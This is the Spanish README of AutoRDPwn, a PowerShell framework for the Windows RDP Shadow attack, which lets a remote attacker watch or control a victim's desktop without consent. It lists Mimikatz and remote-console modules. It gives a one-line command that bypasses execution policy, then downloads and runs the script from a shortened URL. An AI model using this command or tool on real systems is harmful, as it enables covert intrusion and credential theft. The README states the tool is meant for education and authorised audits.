 # AutoRDPwn: The Shadow Attack Framework

![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)

AutoRDPwn es un script creado en Powershell y diseñado para automatizar el ataque Shadow en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.

# Cambios

## Versión 3.5
• Nueva funcionalidad - Cargar módulos adicionales

• Nuevo módulo adicional - Mimikatz

• Nuevo módulo adicional - Consola semi-interactiva


*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
Ejecución en una línea:

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

La guía detallada de uso se encuentra en los siguientes enlaces: 

https://darkbyte.net/autordpwn-the-shadow-attack-framework 

https://darkbyte.net/cambios-y-mejoras-en-autordpwn

# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• Mark Russinovich por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• Marc R Kellerman por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• Stas'M Corp. por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• Kevin Robertson por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• Benjamin Delpy por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net
